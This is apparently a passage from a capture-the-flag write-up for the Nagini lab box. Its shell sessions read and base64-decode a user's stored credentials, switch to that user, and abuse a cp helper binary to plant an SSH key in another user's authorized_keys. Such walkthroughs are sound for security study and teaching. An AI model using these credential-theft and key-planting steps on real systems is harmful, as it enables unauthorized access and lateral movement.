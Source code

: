 ```bash
drwx------ 2 snape snape 4096 Apr  4  2021 .ssh
www-data@Nagini:/home/snape$ 
```
let's check it 
```bash
www-data@Nagini:/$ cd /home/
www-data@Nagini:/home$ ls
hermoine  snape
www-data@Nagini:/home$ cd snape/
www-data@Nagini:/home/snape$ ls
www-data@Nagini:/home/snape$ ls -la
total 32
drwxr-xr-x 4 snape snape 4096 Apr  4  2021 .
drwxr-xr-x 4 root  root  4096 Apr  4  2021 ..
-rw-r--r-- 1 snape snape  220 Apr  3  2021 .bash_logout
-rw-r--r-- 1 snape snape 3526 Apr  3  2021 .bashrc
-rw-r--r-- 1 snape snape   17 Apr  4  2021 .creds.txt
drwx------ 3 snape snape 4096 Apr  4  2021 .gnupg
-rw-r--r-- 1 snape snape  807 Apr  3  2021 .profile
drwx------ 2 snape snape 4096 Apr  4  2021 .ssh
www-data@Nagini:/home/snape$ cat .creds.txt 
TG92ZUBsaWxseQ==
www-data@Nagini:/home/snape$ echo "TG92ZUBsaWxseQ==" | base64 -d;echo            
Love@lilly
www-data@Nagini:/home/snape$ su snape
Password: 
snape@Nagini:~$ whoami
snape
snape@Nagini:~$ 
```
that was an easy way to get the credentials for snape let's find a way to be root

we can try a technique called user pivoting which is basically to get access to another user into the same environment 


```bash
snape@Nagini:/var/www/html/joomla$ cd /home/hermoine/
snape@Nagini:/home/hermoine$ ls
bin  horcrux2.txt
snape@Nagini:/home/hermoine$ cd bin/
snape@Nagini:/home/hermoine/bin$ ls
su_cp
```
we found a binarie called su_cp am able to use cp with  hermoine user so let's upload the id_rsa_pub in .ssh file of hermione to get access without password

```bash
snape@Nagini:/home/hermoine/bin$ nano /tmp/authorized_keys
snape@Nagini:/home/hermoine/bin$ ./su_cp /tmp/authorized_keys /home/hermoine/.ssh/authorized_keys 
```

```bash
❯ proxychains ssh hermione@10.10.0.137
hermione@Nagini:~$ whoami
hermione
```
